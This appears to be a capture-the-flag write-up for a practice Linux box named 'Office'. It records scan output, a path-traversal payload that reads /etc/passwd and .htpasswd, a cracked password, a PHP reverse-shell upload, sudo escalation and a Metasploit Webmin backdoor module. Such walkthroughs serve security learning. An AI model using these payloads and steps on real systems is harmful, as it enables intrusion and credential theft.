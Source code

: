 ```yaml
---
tags: [Challenge, Linux]
title: Office
created: '2020-05-26T12:25:46.534Z'
modified: '2020-05-26T14:59:58.454Z'
---
```


# Office
- IP: `172.31.3.1`
- OS: `Linux`
## General
### Usernames
- dwight (Author on port 80)
- jim (To be fired)
- meredith ([forum](https://office.csl/forum/))
- creed ([forum](https://office.csl/forum/))
- andy ([forum](https://office.csl/forum/))
- phyllis ([forum](https://office.csl/forum/))
- oscar ([forum](https://office.csl/forum/))
- kevin ([forum](https://office.csl/forum/))
- angela ([forum](https://office.csl/forum/))
### Credentials
- dwight:cowboys1
## Enumeration
### Writeup
We see that both port 80 and 443 are open. Taking a look at those, we notice that port 443 just has the default apache page

`WordPress 5.4.1` runs on port 80

We find the forum on port 443 and on the [login](https://office.csl/forum/login/login.php) page, it says `Login is done via User-Agent to access the forum.`

However, when looking at the chatlogs, we saw a `?file` GET parameter. By inputting `../../../../../../../../etc/passwd`, we can get LFI

Using this LFI, we can get access to [`.htpasswd`](https://office.csl/forum/chatlogs/chatlogs.php?file=../../../../../../../../var/www/html/forum/.htpasswd), which contains `dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/ `, which we can crack to `cowboys1`

We can use these credentials to log into [wordpress](http://office.csl/wp-admin/)

In the file manager, we create a php file and upload `/usr/share/webshells/php/php-reverse-shell.php`
### Commands
#### NMap
`nmap -p 1-65535 -T4 -A -v 172.31.3.1`
<details>
<markdown>
```bash
PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Issuer: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-08T20:01:51
| Not valid after:  2021-05-08T20:01:51
| MD5:   e159 faf3 e637 25ad 7d95 3210 9a69 bce6
|_SHA-1: adee e6e5 1566 a86f c8d9 6d7e 1fc0 2239 e21e 92ef
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
32195/tcp filtered unknown
```
</markdown>
</details>
<markdown>
#### GoBuster
- 80
  - `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://office.csl/ -x html,js,txt -o commands/gobuster-80-root`
```bash
/license.txt (Status: 200)
/readme.html (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
  /css (Status: 301)
  /images (Status: 301)
  /includes (Status: 301)
  /js (Status: 301)
  /maint (Status: 301)
  /network (Status: 301)
  /user (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
```
- 443
  - `gobuster dir -k --wordlist /usr/share/wordlists/dirb/big.txt --url https://office.csl/ -x php,txt -o commands/gobuster-443-root`
```bash
/forum (Status: 301)
  /css (Status: 301)
  /images (Status: 301)
  /index.php (Status: 200)
  /login (Status: 301)
/server-status (Status: 403)
/wordpress (Status: 301)
```
#### WPScan
`wpscan --url http://office.csl/`
</markdown>
<details>
<markdown>
```bash
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://office.csl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://office.csl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://office.csl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.1 identified (Latest, released on 2020-04-29).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.csl/?feed=rss2, <generator>https://wordpress.org/?v=5.4.1</generator>
 |  - http://office.csl/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.1</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://office.csl/wp-content/themes/twentytwenty/
 | Last Updated: 2020-05-14T00:00:00.000Z
 | Readme: http://office.csl/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.3
 | Style URL: http://office.csl/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.csl/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.
```
</markdown>
</details>
<markdown>
#### John
`john --wordlist=/usr/share/wordlists/rockyou.txt dwight-htpasswd-hash`


## Enumeration as www-data
### Writeup
`sudo -l` shows us we can `(dwight) NOPASSWD: /bin/bash`
### Commands
`sudo -u dwight /bin/bash`


## Enumeration as dwight
### Writeup
When we curl the port 10000, which was filtered earlier, we get a webpage, let's try to forward that with ssh (~C) `-L10000:localhost:10000` and we see webmin is running here.

Exploit webmin using: `linux/http/webmin_backdoor` in msf


### Commands
</markdown>
